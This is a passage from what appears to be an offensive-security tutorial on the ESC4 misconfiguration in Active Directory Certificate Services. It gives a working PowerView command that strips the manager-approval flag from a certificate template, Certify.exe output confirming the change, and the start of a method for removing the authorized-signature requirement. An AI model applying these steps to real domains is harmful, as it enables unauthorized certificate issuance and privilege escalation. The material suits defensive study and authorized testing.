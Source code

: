 ```
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity ESC4 -XOR @{'mspki-enrollment-flag'=2} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.CONTOSO.LOCAL/CN=Certificate Templates,CN=Public Key
Services,CN=Services,CN=Configuration,DC=contoso,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] XORing 'mspki-enrollment-flag' with '2' for object ''
PS C:\Tools>
```

To avoid complications, it is preferable to use the `-XOR` option instead of the `-Set` option to edit the flag as above.
We can recover the setting by executing the same command.

The results can be verified using `Certify.exe`, etc.:

```
C:\Tools>Certify.exe find /vulnerable

--snip--

[!] Vulnerable Certificates Templates :

    CA Name                         : CA01.contoso.local\contoso-CA01-CA
    Template Name                   : ESC4
    Schema Version                  : 2
    Validity Period                 : 1 year
    Renewal Period                  : 6 weeks
    msPKI-Certificates-Name-Flag    : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required  : 1
    Application Policies            : Encrypting File System
    pkiextendedkeyusage             : Encrypting File System
    Permissions
      Enrollment Permissions
        Enrollment Rights           : CONTOSO\Domain Admins         S-1-5-21-3654360273-254804765-2004310818-512
                                      CONTOSO\Domain Users          S-1-5-21-3654360273-254804765-2004310818-513
                                      CONTOSO\Enterprise Admins     S-1-5-21-3654360273-254804765-2004310818-519

--snip--
```

There is no `PEND_ALL_REQUESTS` in `mspki-enrollment-flag`.
Now we can issue certificates using the ESC4 template without Manager Approval.


### Disabling Authorized Signature Requirement
Authorized Signature requirement blocks unauthorized certificate issuance.
So, to issue certificates with vulnerable certificate templates, we need to bypass this requirement.
If we have WriteDacl for target certificate template, we can disable this requirement by setting the number of Authorized Signatures to `0`.
